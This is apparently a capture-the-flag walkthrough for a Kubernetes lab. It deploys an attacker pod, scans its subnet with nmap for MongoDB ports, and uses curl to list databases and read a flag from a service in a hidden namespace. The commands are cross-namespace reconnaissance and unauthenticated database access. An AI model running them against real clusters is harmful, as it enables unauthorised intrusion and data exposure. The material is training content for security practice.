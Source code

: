 # K8S Security: Namespace Bypass

## Goal

There is a hidden namespace which has a running mongodb instance.  The goal is to find the instance and find the flag.

1. Install an attacker container.

```
kubectl apply -f 23_pentest_tools.yaml
```

2. Log into the attacker container.

```
kubectl get pods
```
```
kubectl exec -it challenge23-attacker-[POD ID] -- bash
```

3.  Once in the container, get its ip.  I recently learned that the [100.64.0.0/10 space](https://en.wikipedia.org/wiki/IPv4_shared_address_space) is reserved. (!!)

```
ifconfig
```

![IP](https://i.postimg.cc/JrjLDWqk/23-ip.png)


4. Lets run a nmap scan.  We know from a previous challenge that mongodb is the database of choice. Lets look up its ports to find where mongo is.

```
nmap -p27017,28017 [IP ADDRESS]/24
```
![namp](https://i.postimg.cc/q4pHDSJk/23-open.png)

5. We see a host that has these ports open.  

[Default MongoDB Ports.](https://docs.mongodb.com/manual/reference/default-mongodb-port/)

6.  We need to install ping.

```
apt-get update
```
```
apt-get install iputils-ping dnsutils curl iproute2 -y
```
7.  Poke around to find the flags. [Submit the flag](https://devslop.ctfd.io/challenges#Challenge%2023-15)

```
curl http://[IP ADDRESS]:28017/listDatabases
```
```
curl http://[IP ADDRESS]:28017/k8ctf/flag/
```

6. Exit

```
exit
```

🚨**DO NOT DELETE THE pentest tools deployment**🚨
